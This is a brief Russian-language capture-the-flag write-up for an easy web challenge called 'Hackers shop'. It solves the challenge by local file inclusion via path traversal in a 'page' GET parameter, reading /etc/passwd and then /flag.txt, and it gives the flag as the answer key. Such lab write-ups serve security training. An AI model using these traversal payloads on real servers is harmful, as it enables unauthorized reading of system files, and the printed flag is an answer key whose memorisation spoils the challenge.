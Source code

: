 # Hackers shop
## Сложность
Ultra easy

## Описание
В ходе недавнего дела, один ламер сдал следователю магазин, где он закупал базы для брута. Узнав это, они быстро всё прикрыли. Может все-таки получится что-нибудь узнать о них?
(Флаг находится в корневой директории сервера: /flag.txt)

## Решение:
Заметить, что содержимое странциы берётся из GET параметра page=.  
Пробуем получить какой-нибудь системный файл: page=../../../../etc/passwd - успех  
Получаем флаг: page=../../../../flag.txt
## Флаг
CTF{LFI_IS_TH4T_S1MPL3}

